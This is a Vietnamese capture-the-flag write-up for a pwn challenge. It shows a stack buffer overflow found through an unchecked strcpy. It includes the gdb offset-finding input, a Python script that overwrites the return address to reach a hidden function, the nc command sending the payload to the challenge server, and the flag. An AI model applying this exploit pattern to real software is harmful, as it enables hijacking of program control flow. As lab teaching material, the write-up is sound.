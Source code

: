 # Decoder - PWN

-   Đoán bài này thuộc dạng **buffer overflow**.

-   Để ý hàm `authentication`, chắc là buffer overflow xảy ra ở đây.

    ```
    char password_buffer[256];
    strcpy(password_buffer, password);
    ```

-   Dùng gdb debug, đặt break point ở cuối hàm authentication (ngay dòng return).

-   Chạy thử chương trình với một input thiệt là dài, như này:

    ```
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
    ```

-   Khi chương trình chạy hết hàm `authentication`, word đầu tiên của stack (thanh ghi rsp) có giá trị như sau:

    ```
    0x4f4f4f4f
    ```

-   Đây là 4 chữ O, tức là đoạn **OOOO** trong input viết đè lên vùng nhớ chứa địa chỉ trả về. Ta cần đổi **OOOO** thành địa chỉ vùng nhớ của hàm `secret_funtion` (0x4007ea). Chương trình python để làm điều đó:

    ```python
    import struct

    padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
    eip = struct.pack("I", 0x4007ea)
    payload = "\xCC"*4
    print(padding+eip+payload)
    ```

-   Ghi kết quả ra file và hường thụ thành quả:

    ```
    python flowme.py > flowme.txt
    nc 159.65.13.76 33103 < flowme.txt
    ```

Flag: `HCMUS-CTF{You_have_to_learn_basic_stack_based_buffer_overflow}`
